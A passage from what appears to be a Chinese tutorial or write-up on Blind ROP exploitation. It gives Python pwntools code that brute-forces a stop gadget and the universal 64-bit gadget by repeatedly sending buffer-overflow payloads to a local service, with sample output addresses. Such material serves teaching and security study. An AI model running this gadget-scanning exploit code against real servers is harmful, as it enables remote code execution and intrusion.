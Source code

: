 ```python
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
由于我们在本地的守护脚本略简陋，在程序挂掉和重新启动之间存在一定的时间差，所以这里 `sleep(0.1)` 做一定的缓冲，如果还是冲突，在 `except` 进行处理，后面的代码也一样。
```
[*] stop address: 0x4005e5
```

#### common gadget
有了 stop gadget，那些原本会导致程序崩溃的地址还是一样会导致崩溃，但那些正常返回的地址则会通过 stop gadget 进入被挂起的状态。下面我们就可以寻找其他可利用的 gadget，由于是 64 位程序，可以考虑使用通用 gadget（有关该内容请参见章节4.7）：
```python
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
直接从 stop gadget 的地方开始搜索就可以了。另外，找到一个正常返回的地址之后，需要进行检查，以确定是它确实是通用 gadget。
```
[*] gadget address: 0x40082a
```
有了通用 gadget，就可以得到 `pop rdi; ret` 的地址了，即 gadget address + 9。
